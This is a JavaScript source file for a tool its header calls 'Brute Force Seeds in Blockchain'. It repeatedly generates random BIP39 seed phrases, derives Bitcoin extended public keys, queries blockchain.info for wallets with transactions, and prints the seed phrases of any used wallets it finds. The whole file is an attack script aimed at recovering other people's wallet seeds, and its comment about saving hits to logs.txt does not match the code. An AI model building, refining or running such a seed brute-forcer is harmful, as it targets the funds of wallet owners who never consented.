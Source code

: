 /*
* Brute Force Seeds in Blockchain
* When find a used seed save in logs.txt
* email@brunodasilva.com
*/ 
var bitcoin = require('bitcoinjs-lib')
var bip39 = require('bip39')
var bip32 = require('bip32')
var blockchain = require('blockchain.info')
var blockexplorer = require('blockchain.info/blockexplorer').usingNetwork(0)
var crypto = require('crypto')
var fs = require('fs')

var network = bitcoin.networks.bitcoin.mainnet;

setInterval(function() {
  var mnemonics = []
  var bip32Roots = []
  var xPubKeys = []
  for(var i = 0; i < 20; i++) {
      mnemonics[i] = bip39.entropyToMnemonic(crypto.randomBytes(16).toString('hex'))
      bip32Roots[i] = bip32.fromSeed(bip39.mnemonicToSeed( mnemonics[i] , ""))
      xPubKeys[i] = calcBip32ExtendedKey(bip32Roots[i], "m/44'/0'/0'") // m/44 segment path
  }
  blockexplorer.getMultiAddress(xPubKeys, {}).then(function(valor) {
    if(valor && valor.wallet && valor.wallet.n_tx > 0) {
      console.log(mnemonics, xPubKeys)
    }
  }).catch(function(err) {
      console.log(err)
  })
}, 500)



// Function by iancoleman
function calcBip32ExtendedKey(bip32RootKey, path) {
  var extendedKey = bip32RootKey;
  var pathBits = path.split("/");
  for (var i=0; i<pathBits.length; i++) {
    var bit = pathBits[i];
    var index = parseInt(bit);
    if (isNaN(index)) {
      continue;
    }
    var hardened = bit[bit.length-1] == "'";
    var isPriv = !(extendedKey.isNeutered());
    var invalidDerivationPath = hardened && !isPriv;
    if (invalidDerivationPath) {
      extendedKey = null;
    }
    else if (hardened) {
      extendedKey = extendedKey.deriveHardened(index);
    }
    else {
      extendedKey = extendedKey.derive(index);
    }
  }
  return extendedKey.neutered().toBase58()
}
